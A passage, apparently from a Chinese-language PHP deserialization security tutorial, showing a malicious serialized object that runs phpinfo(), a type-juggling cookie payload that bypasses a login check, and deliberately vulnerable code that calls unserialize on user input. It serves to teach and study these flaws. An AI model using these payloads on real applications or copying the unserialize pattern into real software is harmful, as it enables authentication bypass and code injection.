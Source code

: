 ```php
    }
?>
```

正常请求

```
a:2:{i:0;s:5:"Hello";i:1;s:4:"php.";}
```

恶意请求

```
O:18:"PHPObjectInjection":1:{s:6:"inject";s:11:"phpinfo();"}
```

#### 身份认证绕过

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

类型篡改

```
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

#### 对象注入

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
else {
	highlight_file(__FILE__);
}
?>
```
